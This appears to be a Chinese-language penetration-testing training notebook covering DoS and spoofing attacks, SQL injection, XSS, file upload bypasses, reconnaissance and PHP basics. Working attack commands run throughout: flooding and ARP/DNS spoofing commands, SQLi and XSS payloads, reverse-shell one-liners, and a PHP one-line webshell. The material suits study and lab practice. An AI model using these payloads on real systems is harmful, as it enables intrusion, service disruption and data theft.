



# 实训笔记

1. 安装软件：apt-get install xxx

2. 查看文件：cat 路径

3. vi操作：

   1. 进入插入模式：按i

   2. 退出：按  ==：== ，: w filename （输入 「w filename」将文章以指定的文件名filename保存）

      : wq (输入「wq」，存盘并退出vi)

      : q! (输入q!， 不存盘强制退出vi)

4. export PATH=$PATH:/usr/sbin

5. 桥接模式：虚拟机和物理机在一个子网中

   

6. NAT模式：虚拟机在物理机的==私有网段==中

7. host文件路径：C:\Windows\System32\drivers\etc\hosts


***


## 协议攻击

1. 源ip地址伪装的dos攻击：

   > 原理：伪造源IP（躲避防火墙）发送大量TCP连接请求包，造成服务器瘫痪

   1. 提权至root用户：sudo su -  root
   2. Ubuntu监听端口：tcpdump -i eth0 tcp port 80 -n -nn
   3. 其中apache2：service apache2 start
   4. 伪装固定ip、MAX请求：netwox 52 -E "0:1:2:3:4:5" -I "伪装ip" -e "00:0c:29:83:36:d7" -i "目的ip"
      1. -E 伪造源MAX
      2. -I 伪造IP
      3. -e 目标mac（随便填）
      4. -i 目标ip
   5. 随机泛洪攻击：netwox 76 -i  "ipadr" -p  -port

2. ARP（IP和MAC映射协议）欺骗中间人攻击：

   > 原理：不断发送arp欺骗包，对目标的arp缓存表进行污染，目标ip发送到伪装ip的包会被攻击者截获

   1. 向局域网中某ip伪装某ip：ettercap -i eth0 -Tq -M arp:remote /欺骗的ip//   /伪装的ip//
      1. -i  网关
      2. -Tq  文本输出
   2. 监听某网卡传输来的信息：ettercap -Tq -i eth0
   3. 开启kali的转发模式，让目标可以正常上网：echo 1 > /proc/sys/net/ipv4/ip_forward
   4. 验证是否开启：cat /proc/sys/net/ipv4/ip_forward
   5. 查看自己的arp表：arp -a
   6. ARP欺骗后就能获取到由欺骗IP发往伪装ip的全部数据包，但是本机必须与被欺骗IP在同一局域网

3. ICMP路由重定向（伪装成网关）攻击

   > 在网络中发送ICMP重定向路径报文来实现攻击

   1. 查看路由表：route -C -n

   2. 靶机必须设置：echo 1 > /proc/sys/net/ipv4/conf/all/accept_redirects

      echo 1 > /proc/sys/net/ipv4/conf/eth0/accept_redirects

      echo 1 > /proc/sys/net/ipv4/conf/default/accept_redirect

   3. 并重启网络服务：/etc/init.d/networking restart

   4. 进行ICMP攻击：netwox 86 -g 192.168.23.134 -i 192.168.23.133

      1. -g  攻击者ip（要替换的网关ip）
      2. -i  靶机当前网关ip

4. TCP之RST攻击

   > 给正常的TCP连接的一方发送RST报文，造成其TCP连接中断

   1. 服务器在端口7777启动nc进程：nc -l -p 7777
   2. 客户端与服务器的7777端口的nc进程进行TCP连接：nc 192.168.23.132 7777
   3. 攻击者netwox 78 -i  192.168.23.133
   4. 结果：中断了客户端与服务器之间的TCP连接

5. TCP之SYN Flood攻击：

   > 通过大量的真实的TCP请求SYN报文，消耗目标主机的连接队列资源

   1. 查看80端口的状态：lsof -i :80或netstat -an |grep :80
   2. SYN泛洪攻击：netwox 76 -i 192.168.23.133 -p  80
   3. 防御方式：设置SYN RECV超时时限，或扩大连接数量限制

6. UDP之SYN Flood攻击

   >向目标主机发送大量不可靠的UDP包，占用对方计算资源

   1. 监听 eth0网卡的udp服务：tcpdump -i eth0 udp -n
   2. 发动udp泛洪攻击：hping3 --udp -p 53 192.168.23.133（ctrl+c结束）
   3. 使用随机源地址发送UDP泛洪攻击：hping3 --udp -p 53 --flood --rand-source 192.168.23.133
   4. 防御方式：设置防火墙，设置UDP的接收速率

7. DRDos反射：

   

8. DNS欺骗攻击

   > 欺骗目标主机，是其认为攻击者是DNS服务器

   1. 使用dns服务，nslookup，再输入域名
   2. 在ettercap的dns表中添加自定义DNS返回规则（例如对于所有以.com结尾的域名返回192.168.23.132）:vi /etc/ettercap/etter.dns。再添加*.com A 192.168.23.132
   3. 图形化启动ettercap，先点击嗅探、再点击host列表，选择target1作为欺骗主机，target作为伪装主机，点击地球中的ARPpoisoning，污染target1中的arp表，达到欺骗的目的
   4. 被欺骗的主机的所有DNS请求都会发往攻击者，由攻击者处理
   5. 注意：攻击者必须和被攻击者有一条直接通路

9. TCP的会话劫持

   > 劫持通信双方已建立的TCP会话连接，冒充其中的一方与另一方进行连接

   2. 关闭防火墙：sudo service ufw stop;ufw disable;service iptables stop
   2. 使用ettercap先进行ARP欺骗，称为双方通信的中间人
   3. 启动telnet服务：XP：net start telnet   ，Ubuntu：/etc/init.d/openbsd-inetd restart
   4. telnet 连接：telnet 192.168.23.132
   5. kali劫持会话：在ettercap中点击三个点的view，再点击connections，再选择对应的连接，之后可以点击injtct data选择接收方，就可以代替另一方发给接收方数据和文件

***


## SQL注入

1. SQL注入，首先判断时int类型还是字符串类型

2. 判断注入类型：加上’，要报错，但再加上--+不报错即可判断注入类型

3. database():显示数据库名

4. user():显示用户名

5. union联合查询的字段必须和源查询字段一致（种类个数）

6. sql注释：--+可注释后面语句

7. 判断该表有多少个字段：order by 3：表示将查询结果按照第==3==个字段升序排序，如果没有第3个字段则会报错，所以用作探测该表中有多少个字段

8. 判断哪几个字段会回显：1' and1=2 union select 1,2,3 --+

   1. 1’：用于让之前的sql查询语句闭合，使其语法无误
   2. and 1=2：虽然之前语句语法无误，但1=2显然不成立，让其不输出结果
   3. union select 1,2,3：将1,2,3作为sql查询结果输出给php（order by 后面数据的个数必须和之前select查询的字段数相同）
   4. --+：注释sql中后面语句
   5. 这句的目的是获得查询语句的哪些字段会==显示==在页面上，例如 1，2,3,4....n,中哪些数字输出了，哪几个字段就会

9. mysql数据库有一个自带数据库information_schema：

   1. 有数据表tables：
      1. 字段table_schema包括所有数据库名
      2. 字段table_name包括所有数据表名
   2. 有数据表columns
      1. 字段table_name包括所有数据表名
      2. 字段column_name包括所有字段名

10. ==注意==：非数字类型的参数都用用引号引起

11. group_concat(column_name):将所有返回所有coloumn_name记录，用逗号连接成字符串返回

12. 对于不回显的网页，可以利用报错信息获得查询结果

    1. 使用extractvalue() 报错注入两个参数，第一要读取的文件（填1），第二个要报错的内容
    2. ==?id=1' and extractvalue(1,concat(0x23,database(),0x23))==，由于0x23是非法字符，所以concat包括的字符串会被报错，返回concat中所有信息
    3. and extractvalue(1,concat(0x23,(select table_name from information_schema.tables where table_schema=database() limit 1,1),0x23))--+  爆表名（注意，里面的子查询需要用括号括起来）

13. sqlmap使用方法（get类型）:

    1. 获得有哪些数据库：sqlmap -u http://192.168.23.132/sqli-labs/Less-5/?id=6 -dbs
    2. 获得某个数据库有哪些数据表：sqlmap -u http://192.168.23.132/sqli-labs/Less-5/?id=6 -D security --tables
    3. 获得某张表有哪些字段：sqlmap -u http://192.168.23.132/sqli-labs/Less-5/?id=6 -D security -T users -columns
    4. 获得某些字段有哪些元组：sqlmap -u http://192.168.23.132/sqli-labs/Less-5/?id=6 -D security -T users -C id,username,password --dump

14. sqlmap（post类型）

    1. sqlmap -r  1.txt -dbs。1.txt包含请求包，注入处要加*号

15. 过滤，严格控制输出输出、对输入数据进行参数化、静态处理字符串

16. 防范：l 不信任用户的输入，如对用户的输入进行校验（可以通过正则表达式，或限制长度）、对单引号和双"-"进行转换等；

    l 不使用动态拼装SQL，可使用参数化的SQL或者直接使用存储过程进行数据查询存取；

    l 不使用管理员权限的数据库连接，为每个应用使用单独的、权限有限的数据库连接；

    l 不把机密信息明文存放，请加密或者hash掉密码和敏感的信息；

    l 应用的异常信息应该给出尽可能少的提示，最好使用自定义的错误信息对原始错误信息进行包装，把异常信息存放在独立的表中。

17. 分类：回显SQL、报错SQL

18. get类型输入不能用#表示注射：因为#在url中是定位到页面某个锚点的意义，所以

***


## XSS注入

1. XSS漏洞：插入的字符串被当做JS代码执行

2. XSS漏洞利用流程：

   1. 攻击插线XSS漏洞，在漏洞点插入攻击的xss恶意代码传给服务器

   2. 受害者在服务器请求到带有恶意脚本的网页文件

      

3. 用弹窗测试是否能执行XSS注入：<script>alert(1)</script>

4. XSS常用测试语句：

   ``` JavaScript
   <script>alert(1)</script>
   
   <svg onload=alert(1)>
   <a href=javascript:alert(1)>
   <input onfocus=write(1) autofocus>
   ```

   

5. 反射型XSS（只使用一次），存储型XSS

6. 反射型和dom型xss的区别：

7. html实体：为了避免实现关键字符如<>与代码产生冲突，用实体转义这些关键字符，虽然显示与原字符相同，但能避免冲突

8. 绕过htmlspecialchars实体化：不适用<script>,使用加载在属性中的函数onclick等触发函数

   1. onclick='alert(1)'（onclick是作为一个属性，而不是value的值，并且还要触发相应机制）

9. 绕过部分字符串替换：更换大小写绕过

10. 绕过不区分大小写的部分字符串==替换为空==：使用双写绕过，例如oonnclick=‘alert（1）’

11. 绕过向on中加下划线：使用js的伪协议直接执行，Javascript:alert（1），

12. 绕过实体化双引号：html中，单双引号区别很小，所以可以用单引号替代

13. 绕过向ri中加下划线：使用html编码&#x72代替r，然后在php中无法正则搜索到r，但在返回的页面中浏览器自动用r代替&#x72

14. 绕过隐藏了input窗口：添加属性 type="text"

15. 注意：alert（"lch"）内字符要用引号引起

16. XSS的危害：钓鱼 挂马 前段js挖矿 cookie获取

17. XSS分为：dom、反射型、存储性

18. 防御xss策略：

    1. 正则匹配危险字符
    2. html实体化（虽然显示一样，但是失去了功能）
    3. 替换危险字符
    4. 删除危险标签

***


## 文件上传

1. 文件上传漏洞：通过上传点，上传一个木马文件或者木马病毒，来获取web服务器的控制权限
2. 检测文件上传方法

   1. 客户端校验：用前端JS检测，校验上传文件的后缀名
   2. 服务端检测：检查content-type，检查后缀，检查文件头
3. 上传的木马文件要用burp改为后缀为php，因为==只有代码文件类型==才会被执行
4. webshell：一个web的shell，是黑客上传到网站服务器的网站根目录的一个后门程序。webshell的运行依赖于web服务的运行。
5. webshell管理工具：用于管理上传的webshell
6. burpsuite使用：

   1. target：所有拦截过的网页都会记录于此
   2. proxy:代理模块，拦截的所有http请求包都会经过这里
      1. intercept is on/off：on代表启动拦截每一个浏览器发送的请求包，off表示关闭拦截，即使关闭拦截，流量也会经过burpsuite，记录在target
      2. forward：转发已拦截的一个请求包（就是放它通过）
      3. drop：丢弃当前请求包
      4. 右键点击请求包，可以将包发送到==其他模块==进行处理
   3. repeater：重发模块
      1. 在peoxy右键点击send to repeater
      2. 在repeater模块中点击左上角的GO，就可以在右侧看到返回的响应报文
      3. 该模块作用就是观察某一请求报文的响应报文，可以一只重复发 
   4. spider：爬虫模块
   5. scanner：漏洞扫描模块
   6. intrude：攻击模块
      1. 在position中选择需要爆破的参数用$$围起来
      2. 可以选择payload的类型，例如数字number，再选择数字范围和步长
      3. 可以选择payload的处理方式，如hash的MD5加密
      4. 在payloads选择使用的字典
      5. 点击右边的start attack开始攻击
      6. 根据返回页面的长度排序获得成功的payload
      7. 原理：就是每次burpsuite每次使用字典中的某一条记录代替所选参数然后发送，并储存因此的响应
7. burpsuite原理：整个程序作为代理服务器，ip是本身127.0.0.1，使用的端口是默认的8080，因为是代理服务器，所以需要浏览器发送请求时，先将请发给burpsuite，==由burpsuite处理==后再代为发送请求给服务器
8. 中国蚁剑使用：

   1. 右键点击，再选择添加数据
   2. 填上url和密码后，点击测试连接，连接成功后再点击添加
9. 图片马制作：copy 1.jpg/b + 2.txt/a 3.jpg

   1. /b 表示以二进制形式打开图片
   2. /a 表示以ascii码形式打开文本
10. 上传文件

    1. 4.htacess
    2. 5.大小写Ph
    3. 6.php+空格（window解析时会认为后面的空格是敲错了，所以在存储文件时不会包括该空格和 . ）
    4. 7.php+ .  (window解析时会认为后面的点是敲多了)
    5. 8 php::  $  DATA(:: DATA是window下默认后缀，所以上传文件时会忽略这个后缀，存储文件时没有这个后缀)
    6. 9  .php. .(后加  点空点)
    7. 10 双写绕过（pphphp）
    8. 11  （GET）修改当前路径变量，在路径变量上写好1.php，再用%00截断，
    9. 12 (POST)在路径变量处，修改其二进制码（即在HEX模块在路径变量后加00）
    10. 17 使用竞争，即在上传一个php文件（内容是生成一个一句话木马文件），然后再访问，由于服务器时并发执行，所以只有上传和请求的频率足够快，就可以在服务器删除上传文件前访问并执行一次上传文件，从而生成一句话木马文件。
11. 文件上传的防御手段：

    1. 使用白名单，即只允许某些类型的文件上传
    2. 前端JS结合后端一起限制
    3. 重命名用户上传的文件
    4. 文件上传目录不做解析（即文件上传目录下的文件都只是文本文件）
    5. 把一台服务器单独作为文件上传服务器，即上传到文件服务器
12. 文件上传的目的：获得一个webshell
13. 文件上传可分为：客户端验证和服务端验证

***


## 爬虫和代码审计

1. request库

   1. 请求网页信息(还可以加头部字段):a=request.get('url'，headers=headers)
   2. 获得网页文本:print(a.text)
2. request可发起8中http请求
3. beautifulsoup4
4. thread
5. 审计工具：seay
6. 代码审计

   1. 通读全文法
   2. 函数回溯法
   3. 定向功能分析法
7. 对于不同功能，考虑：

   1. sql注入

**


## 信息收集

1. 被动信息收集

   1. whois：查询域名信息、手机号，再通过手机号查询其他关联网站
   2. 谷歌、百度等搜索引擎：
   3. shodan.io、fofa.so:物联网搜索引擎
   4. https://www.zoomeye.org/
   5. 微步在线：https://x.threatbook.cn/   ：查询历史ip、查找子域名、子站、ip反查域名、web指纹扫描
   6. 搜索某域名下所有网站：site：taobao.com
   7. inurl:admin
   8. text:login
   9. intitle：
   10. filetype:doc
   11. 多种语法连用，用空格连接，例如：site：taobao.com  inurl:admin

2. 主动信息收集：

   1. 目标端口（确认目标开启了什么服务）
   2. 目标子域名
   3. 目标路径、目录
   4. 目标指纹

3. 使用nmap扫描

   1. 扫描所有端口：nmap （-sS） 192.168.23.132
   2. 扫描固定端口：nmap  -p 80 192.168.23.132
   3. 扫描一个范围的端口：nmap  -p 80-90 192.168.23.132
   4. 显示扫描过程：-V
   5. 扫描一个网段中的ip(扫不到私网IP)：nmap -sP 192.168.200.1/24
   6. TCP扫描：-sT
   7. UDP扫描：-sU
   8. 扫描目标系统信息：-A

4. 爬虫协议文件：rebots.txt文件，里面包括一些重要的目录或路径

5. 使用fuzz或burpsuite爆破出某站下的目录

   1. wfuzz -w 1.txt --hc 404,502 http://192.168.200.1/FUZZ
      1. 1.txt是字典文件，404、502是不想看到的相应
   2. burpsuite是用攻击模块，payload为站的目录，加载字典

6. 爆破子域名

   1. 在线爆破

7. web指纹识别

8. 反弹shell（可以将一个webshell转为一个系统shell）

   1. 启动端口：nc -lvvp 8080
   2. 反弹shell：bash -i >& /dev/tcp/192.168.200.131/8080 0>&1
   3. 反弹sheel：nc 192.168.200.131 8080 -e /bin/bash

9. 渗透测试的第一步：信息收集

   

## php

1. 整个文件必须在<?php     code         ?>之中
2. 每个语句后面要加分号；
3. 变量前一面加$
4. 输出语句 echo
5. header("Content-Type:text/html;charset=utf-8");
6. 字符串用 **.** 连接
7.  单引号不能用 $ 变量，    
8. 双引号能用  $ 变量表示变量，然后外部依然后双引号
9. 注释/*
10. 一句话木马，eval(@$_POST['a']);